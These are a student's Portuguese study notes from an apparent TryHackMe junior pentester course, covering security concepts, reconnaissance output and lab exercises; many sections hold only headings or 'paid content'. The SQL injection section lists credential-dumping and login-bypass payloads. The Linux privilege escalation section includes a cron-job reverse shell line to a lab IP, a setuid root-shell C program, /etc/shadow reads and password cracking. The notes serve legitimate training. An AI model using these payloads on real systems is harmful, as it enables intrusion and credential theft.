




# F4699266 - JESSICA TAKARA

# Jr Penetration Tester

1. Introduction to Cyber Security
2. Introduction to Pentesting
3. Introduction to Web Hacking
4. Burp Suite
5. Network Security
6. Vulnerability Research
7. Metasploit
8. Privilege Escalation


## 1. Introduction to Cyber Security

### 01. Intro to offensive Security

**What is Offensive Security?**

- Segurança ofensiva: emula as ações dos hackers para encontrar vulnerabilidades no sistema, como exploração de bugs e brechas em aplicações para ganhar acesso não autorizado.
- Segurança defensiva: protege a rede e os sistemas da empresa através da análise e tornando o ambiente seguro contra potenciais ameaças digitais

**Hacking your First machine**
- A atividade simulou o uso do gobuster, uma ferramenta de força bruta para enumerar arquivos e diretórios
- 1. executar o gobuster para listar os repositórios
```bash
# -u: site alvo do scanning
# -w: lista de palavras para ser iterada em busca de páginas ocultas
gobuster -u http://fakebank.com -w wordlist.txt dir
```

- na imagem temos 2 diretórios listados: `/images` e `/bank-transfer`


- acesso a`http://fakebank.com/bank-transfer`


**Careers in cyber security**
- Lista de alguns papéis em segurança defensiva:
	- Pentester: responsável por encontrar encontrar vulnerabilidades de segurança através de testes
	- Red Teamer: faz o papel do adversário, atacando uma organização e provendo o feedback da perspectiva do inimigo
	- Engenheiro de segurança: projeta, monitora e mantém controles de segurança, redes e sistemas para prevenir ataques

### 02. Intro to Defensive Security
**Introduction to Defensive Security**
- Segurança defensiva é centrada em duas principais tarefas:
	- prevenir a ocorrência de invasões
	- detectar invasões e responder de acordo
- Tarefas relacionadas a segurança defensiva:
	- Conscientização do usuário sobre segurança cibernética
	- Documentar e gerenciar ativos: para proteger, é necessário conhecer o que deve ser protegido
	- Atualização e aplicação de patches em sistemas: garantir a atualizaçao para corrigir vulnerabilidades conhecidas.
	- Configurando dispositivos de segurança preventiva: exemplo: firewall e sistemas de prevenção de intrusões (IPS).
	- Configurando dispositivos de registro e monitoramento: para poder detectar atividades maliciosas, é necessário registrar e monitorar a rede, assim saberemos quando um dispositivo da rede não autorizado aparecer.
- 


**Areas of Defensive Security**
- Security Operations Center (SOC)
	- Security Operations Center (SOC) monitora a rede e os sistemas para detectar eventos de cyber segurança maliciosos, suas principais áreas de interesse são:
		- Vulnerabilidades: devem ser aplicados correções ou patches, caso não estejam disponíveis são tomadas medidas para evitar a exploração
		- Violações de políticas: atenção no descumprimento de política de segurança (conjunto de regras para proteção de redes e sistemas) 
		- Atividade não autorizada: ex. detecção e bloqueio de login e senha roubados
		- Invasões de rede
	-  Threat Intelligence
		- Tem como objetivo reunir informações sobre ameaças, para conhecer as táticas, técnicas e procedimentos (TTPs) dos adversários 
- Digital Forensics and Incident Response (DFIR)
	-  Digital Forensics
 		- Analisa evidência de um ataque, seus perpetradores e outras áreas como roubo de propriedade intelectual, cyber espionagem e posse de conteúdo não autorizado.
		- Foco em: sistema de arquivos, memória e logs do sistema, e logs de rede. 
	-  Incident Response
		-  4 fases principais da resposta à incidentes:
			- preparação: equipe treinada e pronta para lidar com incidentes
			- detecção e análise: recursos para detectar e classificar a severidade da ameaça
			- contenção, erradicação e recuperação: uma vez detectado o incidente, deve ser parado (contido), limpo (erradicado) e o ambiente recuperado
			- atividade pós-incidente: geração do relatório sobre o incidente que é compartilhado para prevenir incidentes futuros similares
	-  Malware Analysis
 		- tipos de malware: virus(pedaço de código que se anexa a um programa e é projetado para se espalhar de uma máquina para outra), trojan horse (programa com função desejada, porém com função maliciosa oculta), ransomware(encripta os arquivos do usuário e o atacante solicita o pagamento do resgate para passar a senha de encriptação)
		- principais análises: 
			- análise estática: inspeciona o programa malicioso sem executar o programa
			- análise dinâmica: inspeciona o programa reallizando a exeucção em um ambiente controlado e monitora suas atividades
 


**Practical Example of Defensive Security**


### 03. Careers in Cyber
- Analista de segurança: responsável por manter a segurança dos dados da organização
- Engenheiro de segurança: projeta, monitora e mantém controles de segurança, redes e sistemas para ajudar na prevenção de ataques
- Resposta a incidente: identifica e mitiga ataques enquanto as operações do invasor ainda estão em andamento
- Examinador forense digital: responsável por usar forense digital para investigar incidentes e crimes
- Analista de malware: analisa todos os tipos de malware para aprender mais sobre como elas funcionam e o que fazem
- Pentester: responsável por testar produtos de tecnologia para encontrar falhas de segurança
- Red teamer: faz o papel do adversário, atacando a organização e provendo feedback da perspectiva do inimigo

## 2. Introduction to Pentesting

### Pentesting Fundamentals


- Testes:
	- Black box: sem conhecimento
	- Grey box: conhecimento parcial
	- White box: conhecimento total
- Estágios de todos as metodologias padrão de indústria:
	- reunir informações: coleta de informações públicas do alvo/organização
	- enumeração/scanning: descoberta de aplicações e serviços rodando nos sistemas
	- exploração: aproveitar a discoberta de vulnerabilidades descobertas
	- escalação de privilégio: depois do foothold (exploração com sucesso), o próximo estágio é tentar expandir o acesso ao sistema horizontalmente (acessar outras contas com a mesma permissão) ou verticalmente (permissão de outros grupos)
	- pós-exploração

### Principles of Security
- paid content

## 3. Introduction to Web Hacking

### Walking An Application
- paid content

### Content Discovery
- paid content

### Subdomain Enumeration
- paid content

### Authentication Bypass
- paid content

### IDOR
- paid content

### File Inclusion
- paid content

### Intro to SSRF
- paid content

### Intro to Cross-site Scripting
- paid content

### Command Injection
- paid content

### SQL Injection

**Brief**


**What is a Data base?**


**What is SQL?**


**What is SQL Injection?**


**In-Band SQLi**

`https://website.thm/article?id=1`

`select * from article where id = 1`

`https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`

`select * from article where id = 0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '
') FROM staff_users` 


**Blind SQLi - Authentication Bypass**

`select * from users where username='' and password='' LIMIT 1;`

`%username%`

`%password%' OR 1=1;--`

`select * from users where username='%username%' and password='%password%' OR 1=1;--' LIMIT 1;`


**Blind SQLi — Boolean Based**

`https://website.thm/checkuser?username=admin`

`select * from users where username = 'admin' LIMIT 1`

`https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 3845; --`

`select * from users where username = 'admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 3845; --' LIMIT 1`


**Blind SQLi - Time Based**

`https://website.thm/analytics?referrer=tryhackme.com`

`select * from analytics_referrers where domain='tryhackme.com' LIMIT 1`

`https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like ‘admin’ and password like ‘4961’;`

`select * from analytics_referrers where domain='admin123' UNION SELECT SLEEP(5),2 from users where username like ‘admin’ and password like ‘4961’;' LIMIT 1`


**Out-of-Band SQLi**


**Remediation**


## 4. Burp Suite

### Burp Suite: The Basics

**Introduction**

**What is Burp Suite**


**Features of Burp Community**


**Installation**

**The Dashboard**


**Navigation**


**Options**


**Introduction to the Burp Proxy**

**Connecting through the Proxy (FoxyProxy)**

**Site Map and Issue Definitions**


**The Burp Suite Browser**

**Scoping and Targetíng**

**Proxying HTTPS**

**Example Attack**

**Conclusion**

### Burp Suite: Repeater

**Introduction**

**What is Repeater?**


**Basic Usage**


**Message Analysis Toolbar**


**Inspector**


**Practical Example**


**Challenge**


**Extra-mile Challenge**


**Conclusion**


### Burp Suite: Intruder
- paid content

### Burp Suite: Other Modules
- paid content

### Burp Suite: Extensions
- paid content

## 5. Network Security

### Passive Reconnaissance

**Introduction**

**Passive Versus Active Recon**

**Whois**

```bash
user@TryHackMe$ whois tryhackme.com
[Querying whois.verisign-grs.com]
[Redirected to whois.namecheap.com]
[Querying whois.namecheap.com]
[whois.namecheap.com]
Domain name: tryhackme.com
Registry Domain ID: 2282723194_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.namecheap.com
Registrar URL: http://www.namecheap.com
Updated Date: 2021-05-01T19:43:23.31Z
Creation Date: 2018-07-05T19:46:15.00Z
Registrar Registration Expiration Date: 2027-07-05T19:46:15.00Z
Registrar: NAMECHEAP INC
Registrar IANA ID: 1068
Registrar Abuse Contact Email: abuse@namecheap.com
Registrar Abuse Contact Phone: +1.6613102107
Reseller: NAMECHEAP INC
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Registry Registrant ID: 
Registrant Name: Withheld for Privacy Purposes
Registrant Organization: Privacy service provided by Withheld for Privacy ehf
[...]
URL of the ICANN WHOIS Data Problem Reporting System: http://wdprs.internic.net/
>>> Last update of WHOIS database: 2021-08-25T14:58:29.57Z <<<
For more information on Whois status codes, please visit https://icann.org/epp
```


**nslookup and dig**

```bash
nslookup -type=txt thmlabs.com
Server:         172.27.80.1
Address:        172.27.80.1#53

Non-authoritative answer:
thmlabs.com     text = "THM{a5b83929888ed36acb0272971e438d78}"

Authoritative answers can be found from:
```
ou
```bash
dig thmlabs.com txt

; <<>> DiG 9.16.1-Ubuntu <<>> thmlabs.com txt
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 7971
;; flags: qr rd ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;thmlabs.com.                   IN      TXT

;; ANSWER SECTION:
thmlabs.com.            0       IN      TXT     "THM{a5b83929888ed36acb0272971e438d78}"

;; Query time: 0 msec
;; SERVER: 172.27.80.1#53(172.27.80.1)
;; WHEN: Wed May 01 19:16:36 -03 2024
;; MSG SIZE  rcvd: 90
```


**DNSDumpster**
`https://dnsdumpster.com/`

`tryhackme.com`


**Shodan.io**
`https://www.shodan.io/search?query=apache`


`https://www.shodan.io/search?query=nginx`


**Summary**

### Active Reconnaissance

**Introduction**

**Web Browser**


**Ping**


**Traceroute**

Traceroute A
```bash
user@AttackBox$ traceroute tryhackme.com
traceroute to tryhackme.com (172.67.69.208), 30 hops max, 60 byte packets
 1  ec2-3-248-240-5.eu-west-1.compute.amazonaws.com (3.248.240.5)  2.663 ms * ec2-3-248-240-13.eu-west-1.compute.amazonaws.com (3.248.240.13)  7.468 ms
 2  100.66.8.86 (100.66.8.86)  43.231 ms 100.65.21.64 (100.65.21.64)  18.886 ms 100.65.22.160 (100.65.22.160)  14.556 ms
 3  * 100.66.16.176 (100.66.16.176)  8.006 ms *
 4  100.66.11.34 (100.66.11.34)  17.401 ms 100.66.10.14 (100.66.10.14)  23.614 ms 100.66.19.236 (100.66.19.236)  17.524 ms
 5  100.66.7.35 (100.66.7.35)  12.808 ms 100.66.6.109 (100.66.6.109)  14.791 ms *
 6  100.65.14.131 (100.65.14.131)  1.026 ms 100.66.5.189 (100.66.5.189)  19.246 ms 100.66.5.243 (100.66.5.243)  19.805 ms
 7  100.65.13.143 (100.65.13.143)  14.254 ms 100.95.18.131 (100.95.18.131)  0.944 ms 100.95.18.129 (100.95.18.129)  0.778 ms
 8  100.95.2.143 (100.95.2.143)  0.680 ms 100.100.4.46 (100.100.4.46)  1.392 ms 100.95.18.143 (100.95.18.143)  0.878 ms
 9  100.100.20.76 (100.100.20.76)  7.819 ms 100.92.11.36 (100.92.11.36)  18.669 ms 100.100.20.26 (100.100.20.26)  0.842 ms
10  100.92.11.112 (100.92.11.112)  17.852 ms * 100.92.11.158 (100.92.11.158)  16.687 ms
11  100.92.211.82 (100.92.211.82)  19.713 ms 100.92.0.126 (100.92.0.126)  18.603 ms 52.93.112.182 (52.93.112.182)  17.738 ms
12  99.83.69.207 (99.83.69.207)  17.603 ms  15.827 ms  17.351 ms
13  100.92.9.83 (100.92.9.83)  17.894 ms 100.92.79.136 (100.92.79.136)  21.250 ms 100.92.9.118 (100.92.9.118)  18.166 ms
14  172.67.69.208 (172.67.69.208)  17.976 ms  16.945 ms 100.92.9.3 (100.92.9.3)  17.709 ms
```

Traceroute B
```bash
user@AttackBox$ traceroute tryhackme.com
traceroute to tryhackme.com (104.26.11.229), 30 hops max, 60 byte packets
 1  ec2-79-125-1-9.eu-west-1.compute.amazonaws.com (79.125.1.9)  1.475 ms * ec2-3-248-240-31.eu-west-1.compute.amazonaws.com (3.248.240.31)  9.456 ms
 2  100.65.20.160 (100.65.20.160)  16.575 ms 100.66.8.226 (100.66.8.226)  23.241 ms 100.65.23.192 (100.65.23.192)  22.267 ms
 3  100.66.16.50 (100.66.16.50)  2.777 ms 100.66.11.34 (100.66.11.34)  22.288 ms 100.66.16.28 (100.66.16.28)  4.421 ms
 4  100.66.6.47 (100.66.6.47)  17.264 ms 100.66.7.161 (100.66.7.161)  39.562 ms 100.66.10.198 (100.66.10.198)  15.958 ms
 5  100.66.5.123 (100.66.5.123)  20.099 ms 100.66.7.239 (100.66.7.239)  19.253 ms 100.66.5.59 (100.66.5.59)  15.397 ms
 6  * 100.66.5.223 (100.66.5.223)  16.172 ms 100.65.15.135 (100.65.15.135)  0.424 ms
 7  100.65.12.135 (100.65.12.135)  0.390 ms 100.65.12.15 (100.65.12.15)  1.045 ms 100.65.14.15 (100.65.14.15)  1.036 ms
 8  100.100.4.16 (100.100.4.16)  0.482 ms 100.100.20.122 (100.100.20.122)  0.795 ms 100.95.2.143 (100.95.2.143)  0.827 ms
 9  100.100.20.86 (100.100.20.86)  0.442 ms 100.100.4.78 (100.100.4.78)  0.347 ms 100.100.20.20 (100.100.20.20)  1.388 ms
10  100.92.212.20 (100.92.212.20)  11.611 ms 100.92.11.54 (100.92.11.54)  12.675 ms 100.92.11.56 (100.92.11.56)  10.835 ms
11  100.92.6.52 (100.92.6.52)  11.427 ms 100.92.6.50 (100.92.6.50)  11.033 ms 100.92.210.50 (100.92.210.50)  10.551 ms
12  100.92.210.139 (100.92.210.139)  10.026 ms 100.92.6.13 (100.92.6.13)  14.586 ms 100.92.210.69 (100.92.210.69)  12.032 ms
13  100.92.79.12 (100.92.79.12)  12.011 ms 100.92.79.68 (100.92.79.68)  11.318 ms 100.92.80.84 (100.92.80.84)  10.496 ms
14  100.92.9.27 (100.92.9.27)  11.354 ms 100.92.80.31 (100.92.80.31)  13.000 ms 52.93.135.125 (52.93.135.125)  11.412 ms
15  150.222.241.85 (150.222.241.85)  9.660 ms 52.93.135.81 (52.93.135.81)  10.941 ms 150.222.241.87 (150.222.241.87)  16.543 ms
16  100.92.228.102 (100.92.228.102)  15.168 ms 100.92.227.41 (100.92.227.41)  10.134 ms 100.92.227.52 (100.92.227.52)  11.756 ms
17  100.92.232.111 (100.92.232.111)  10.589 ms 100.92.231.69 (100.92.231.69)  16.664 ms 100.92.232.37 (100.92.232.37)  13.089 ms
18  100.91.205.140 (100.91.205.140)  11.551 ms 100.91.201.62 (100.91.201.62)  10.246 ms 100.91.201.36 (100.91.201.36)  11.368 ms
19  100.91.205.79 (100.91.205.79)  11.112 ms 100.91.205.83 (100.91.205.83)  11.040 ms 100.91.205.33 (100.91.205.33)  10.114 ms
20  100.91.211.45 (100.91.211.45)  9.486 ms 100.91.211.79 (100.91.211.79)  13.693 ms 100.91.211.47 (100.91.211.47)  13.619 ms
21  100.100.6.81 (100.100.6.81)  11.522 ms 100.100.68.70 (100.100.68.70)  10.181 ms 100.100.6.21 (100.100.6.21)  11.687 ms
22  100.100.65.131 (100.100.65.131)  10.371 ms 100.100.92.6 (100.100.92.6)  10.939 ms 100.100.65.70 (100.100.65.70)  23.703 ms
23  100.100.2.74 (100.100.2.74)  15.317 ms 100.100.66.17 (100.100.66.17)  11.492 ms 100.100.88.67 (100.100.88.67)  35.312 ms
24  100.100.16.16 (100.100.16.16)  19.155 ms 100.100.16.28 (100.100.16.28)  19.147 ms 100.100.2.68 (100.100.2.68)  13.718 ms
25  99.83.89.19 (99.83.89.19)  28.929 ms *  21.790 ms
26  104.26.11.229 (104.26.11.229)  11.070 ms  11.058 ms  11.982 ms
```


**Telnet**


**Netcat**


**Putting It All Together**


### Nmap Live Host Discovery

**Introduction**

**Subnetworks**


**Enumerating Targets**


**Discovering Live Hosts**


**Nmap Host Discovery Using ARP**


**Nmap Host Discovery Using ICMP**


**Nmap Host Discovery Using TCP and UDP**


**Using Reverse-DNS Lookup**


**Summary**

### Nmap Basic Port Scans
- paid content

### Nmap Advanced Port Scans
- paid content

### Nmap Post Port Scans
- paid content

### Protocols and Servers
- paid conntent

### Protocols and Servers 2
- paid content

### Net Sec Challenge
- paid content

## 6. Vulnerability Research

### Vulnerabilities 101

**Introduction**

**Introduction to Vulnerabilities**


**ScoringVulnerabilities (CVSS &VPR)**


**Vulnerability Databases**


**An Example of Finding a Vulnerability**


**Showcase: Exploiting Ackme's Application**


**Conclusion**

### Exploit Vulnerabilities
- paid content

### Vulnerability Capstone
- paid content

## 7. Metasploit

### Metasploit: Introduction

**Introduction to Metasploit**

**Main Components of Metasploít**


**Msfconsole**


**Working with modules**


**Summary**

### Metasploit: Exploitation
- paid content
### Metasploit: Meterpreter
- paid content

## 8. Privilege Escalation

### What the Shell?
- paid content

### Linux Privilege Escalation

**Introduction**

**What is Privilege Escalation?**

**Enumeration**


`uname -a`

`cat /etc/os-release`

`python --version`

**Automated Enumeration Tools**

**Privilege Escalation: Kernel Exploits**

```bash
cd /home
ls
cd matt
ls
cat flag.txt
THM-283928727299220
```


**Privilege Escalation: Sudo**

`sudo -l`

```bash
cd home
cd ubuntu
ls
cat flag2.txt
THM-402028394
```

```bash
cat /etc/shadow
```


**Privilege Escalation: SUID**

```bash
cat /etc/passwd
```

```bash
john --wordlist=/root/Desktop/rockyou.txt user2
john user2 --show
?:Password1
```

```bash
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
THM-3847834
```


**Privilege Escalation: Capabilities**

```bash
cat /home/ubuntu/flag4.txt
THM-9349843
```


**Privilege Escalation: Cron Jobs**

```bash
cat /etc/crontab
```

```bash
pwd
/home/karen
nano backup.sh
chmod +x backup.sh
```

```sh
#!/bin/bash
bash -i >& /dev/tcp/10.9.7.91/6666 0>&1
```

```bash
john --wordlist=/root/Desktop/rockyou.txt matt
john matt --show
?:123456
```


**Privilege Escalation: PATH**
```bash
ls -la
```

```bash
#rever, precisa achar o local do arquivo
cat flag6.txt
```


**Privilege Escalation: NFS**

```bash
showmount -e 10.10.15.2
```

shell.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main (void)
{
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
```

```bash
gcc shell.c -o shell
chmod +x shell
chmod +s shell
```

```bash
cd /ubuntu/sharefolder
ls
./shell
cd home/matt
ls
cat flag7.txt
```




**Capstone Challenge**


### Windows Privilege Escalation
- paid content
